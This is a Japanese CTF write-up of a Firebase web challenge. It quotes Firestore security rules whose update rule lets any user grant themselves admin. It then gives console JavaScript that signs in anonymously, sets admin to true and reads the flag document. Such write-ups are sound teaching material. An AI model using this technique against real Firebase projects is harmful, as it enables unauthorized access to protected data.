

# Problem on fire:web:200pts
たいへん！作問作業が炎上しちゃったよ！みんなで力を合わせてなんとかしよう！  
[https://challenge-on-fire.web.app/](https://challenge-on-fire.web.app/)  
[challenge_on_fire.tar.gz](challenge_on_fire.tar.gz)  

# Solution
アクセスすると謎のサイトが動いていた。  
Welcome to Firebase Hosting  
[site.png](site/site.png)  
タイトルからもわかる通りFirebase系のWeb問題のようだ。  
権限周りの脆弱性であることが容易に想像がつく。  
配布されたファイルのrulesを見ると以下のようであった。  
```
rules_version = '2';
service cloud.firestore {
  match /databases/{database}/documents {
    match /users/{uid} {
      // 自分のユーザー情報を書き込めるのは自分のみ
      allow read, create: if request.auth.uid == uid && !request.resource.data.admin;
      // 一度作ったユーザー情報を編集できるのはadminだけ
      allow update: if request.resource.data.admin;
    }
    match /flags/flag {
      // flagを読めるのはadminだけ
      allow read: if get(/databases/$(database)/documents/users/$(request.auth.uid)).data.admin == true;
    }
  }
}
```
adminのみがフラグを読むことができ、自分のみが自分のユーザ情報を書き込める。  
adminになってしまえばよい。  
ページからパクって編集した以下のjsをブラウザのコンソールから実行する。  
```js
const auth = firebase.auth();
const {user} = await auth.signInAnonymously();
const token = await user.getIdToken();
const uid = user.uid;
const db = firebase.firestore();
await db.collection('users').doc(uid).set({admin: true});
const flag = await db.collection('flags').doc('flag').get();
this.flag = flag.get('value');
```
  
flagが得られた。  

## TSGLIVE{git_fire_is_also_useful_when_the_project_is_on_fire}